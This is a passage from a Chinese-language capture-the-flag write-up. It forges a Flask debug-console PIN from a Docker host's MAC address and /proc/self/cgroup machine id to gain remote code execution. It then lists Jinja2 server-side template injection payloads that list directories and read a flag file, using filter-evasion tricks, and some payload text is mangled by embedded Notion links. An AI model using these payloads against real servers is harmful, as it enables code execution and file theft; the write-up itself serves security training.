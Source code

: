 - 读/sys/class/net/eth0/address拿mac
    - 86:ce:74:4e:b9:3e  要转为10进制
- docker环境，因此读机器id需要读/proc/self/cgroup
    - 2f6c7c562dde90a54aadbbf3f0fb4f53053cb1a8694517af60ff8d93018351eb

pin：615-606-273

传入后rce

![Untitled](Python%202c1838eaf9de4ce0a9b5157ca12cec49/Untitled%2012.png)

其他解：

直接ssti

- {{''.__class__.__bases__[0].__subclasses__()[75].__init__.___globals__['__builtins__'][['](notion://www.notion.so/'o'+'s')imp'+'ort['](notion://www.notion.so/'o'+'s')].listdir('/')}}
- {% for c in []__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('txt.galf_eht_si_siht/'[::-1],'r').read() }}{% endif %}{% endfor %}